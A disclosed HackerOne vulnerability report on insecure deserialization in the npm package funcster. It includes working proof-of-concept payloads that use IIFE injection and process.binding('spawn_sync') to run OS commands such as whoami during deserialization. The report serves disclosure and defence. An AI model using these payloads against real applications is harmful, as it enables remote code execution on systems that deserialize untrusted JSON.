 # Insecure implementation of deserialization in funcster

## Report Details
- **Report ID**: 350401
- **URL**: https://hackerone.com/reports/350401
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-05-11T10:44:16.888Z
- **Disclosed**: 2018-06-15T21:48:25.666Z

## Reporter
- **Username**: greendog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report code injection in serialization package funcster.
It allows execute arbitrary code during deserialization of JSON.

# Module

**module name:** funcster
**version:** 0.0.3
**npm page:** `https://www.npmjs.com/package/funcster`

## Module Description

This library contains utilities for serializing and deserializing functions. It provides recursive traversal to discover both serialized and unserialized functions nested within objects and arrays. This is particularly useful for embedding functions into JSON objects.

## Module Stats

4 downloads in the last week

# Vulnerability

## Vulnerability Description

In an application uses "funcster" package to deserialize JSON into object and if an attacker controls this JSON, then an attacker can get arbitrary code execution in the application.
The package reconstructs an object with functions from JSON. But it's supposed that functions of the object are not executed until they are invoked directly in the code later. Using IIFE (immediately-invoked function expression), we as attackers can force funcster to execute our function from JSON during deserialization process.

## Steps To Reproduce:

The vulnerability exists because during deserialization process funcster creates a new module with exported functions from JSON.  Here is this part of code:
```
return "module.exports=(function(module,exports){return{" + entries + "};})();";
```

Using IIFE (immediately-invoked function expression), we as attackers can force funcster to execute our function from JSON during deserialization. The idea is similar to one described in this article -  https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Here is a PoC:
```
var funcster = require('funcster');
var serJSON = { __js_function: 'function testa(){var pr = this.constructor.constructor("return process")(); pr.stdout.write("param-pam-pam") }()' }
var newFunc = funcster.deepDeserialize(serJSON);
```

funcster cuts standard built-in objects, but we can bring them back using the global object(this) and the "process" object.
Here is a JSON payload to get OS command execution(whoami):
```
 { __js_function: "function testa(){var process = this.constructor.constructor('return process')(); spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}/*process.stdout.write(JSON.stringify(a))*/;var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;};var x= spawnSync('whoami'); process.stdout.write(x.output.toString());}()"}
```

## Patch

I see no ways to patch it because it is a consequence of design/approach which funster uses to serialize/deserialize object.

## Supporting Material/References:

- Ubuntu 16.04
- node v6.11.3
- npm 5.5.1 


# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

An attacker can craft a special JSON file with malicious code which will be executed during deserialization by funcster. So the attacker can achieve OS command execution.

## Attachments
No attachments
